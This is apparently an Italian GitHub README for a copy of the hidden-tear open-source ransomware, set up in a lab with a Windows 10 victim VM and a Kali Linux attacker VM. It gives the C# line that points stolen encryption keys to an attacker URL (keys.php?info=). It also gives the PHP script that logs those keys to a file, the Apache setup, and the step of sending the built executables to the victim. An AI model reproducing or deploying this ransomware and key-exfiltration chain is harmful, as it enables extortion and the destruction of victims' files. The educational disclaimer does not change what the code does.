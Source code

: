 Copia dello storico ransomware open source:

         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
                                                     
Per utilizzarlo mi sono servito di due macchine virtuali: una con windows 10 che fungeva da vittima e una con kali linux che faceva da attaccante.

**Nel mio pc, con visual studio**

* A riga 40 del file *Form1.cs* ho aggiunto l'indirizzo IP della macchina con kali linux e l'indirizzamento al file keys.php spiegato nello step successivo:
```
  string targetURL = "http://192.168.17.128/keys.php?info=";                                                                     
```
* Nei file di encription e decription ho corretto il problema del padding


**Nella macchina con kali linux**
* Nella cartella var/www/html ho creato un file data.txt e un file keys.php
```
sudo gedit data.txt
sudo gedit keys.php
         
```
* Con i permessi di amministratore ho permesso l'accesso read and write al file data.txt da parte di www-data . Bisogna entrare nel file manager in modalità sudo per entrarci ho eseguito:
```
sudo xdg-open .
```


* In *keys.php* ho inserito questo codice:
```
 <?php
	$info = $_GET['info'];
	$file = fopen("data.txt", "a");
	fwrite($file, $info."". PHP_EOL);
	fclose($file);
?>
         
```
* Infine ho aperto un terminale nella stessa cartella e ho lanciato:
```
service apache2 start                                                                           
```


**Alla macchina 'vittima'** 

ho inviato i file *hidden-tear.exe* e *hidden-tear-decripter.exe* contenuti nella cartella bin/Debug con i rispettivi nomi

**Riferimento**

[Riferimento video](https://www.youtube.com/watch?v=ILlTB0-xT-k&t=387s)

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

Anche se questo può essere utile per alcuni, ci sono rischi significativi. Può essere utilizzato solo per scopi educativi. Non usarlo come ransomware! Potresti finire in prigione con l'accusa di ostruzione alla giustizia, anche se sei innocente.
